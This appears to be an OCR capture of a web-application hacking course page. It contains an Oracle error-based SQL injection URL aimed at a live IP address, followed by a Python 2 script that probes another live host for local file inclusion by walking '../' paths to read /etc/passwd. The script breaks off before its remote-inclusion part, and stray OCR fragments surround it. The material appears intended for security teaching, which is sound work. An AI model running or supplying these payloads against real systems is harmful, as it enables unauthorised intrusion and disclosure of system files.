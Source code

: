  
 
 
 
http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1' or 1=utl_inaddr.get_host_address((SELECT global_name FROM global_name))--
 
Current database is:






############################
# Web App Scripting Basics #
############################

1. Simple LFI/RFI 


vi lfi-rfi.py
--------------------------------
#!/usr/bin/env python

print "\n### PHP LFI/RFI Detector ###"


# urllib2 is a Python module that can be used for fetching URLs. It defines functions and classes to help with URL actions (basic and digest authentication, redirections, cookies, etc) The magic starts with importing the urllib2 module.

# The module re provides full support for Perl-like regular expressions in Python

# The module sys contains System-specific parameters and functions


import urllib2,re,sys

TARGET = "http://54.172.112.249/showfile.php?filename=about.txt"
RFIVULN = "https://raw.githubusercontent.com/gruntjs/grunt-contrib-connect/master/test/fixtures/hello.txt?"
TravLimit = 12

print "==> Testing for LFI vulns.."
TARGET = TARGET.split("=")[0]+"=" ## URL MANUPLIATION 
for x in xrange(1,TravLimit): ## ITERATE THROUGH THE LOOP
    TARGET += "../"
    try:
        source = urllib2.urlopen((TARGET+"etc/passwd")).read() ## WEB REQUEST
    except urllib2.URLError, e:
        print "$$$ We had an Error:",e
        sys.exit(0)
    if re.search("root:x:0:0:",source): ## SEARCH FOR TEXT IN SOURCE
        print "!! ==> LFI Found:",TARGET+"etc/passwd"
        break ## BREAK LOOP WHEN VULN FOUND
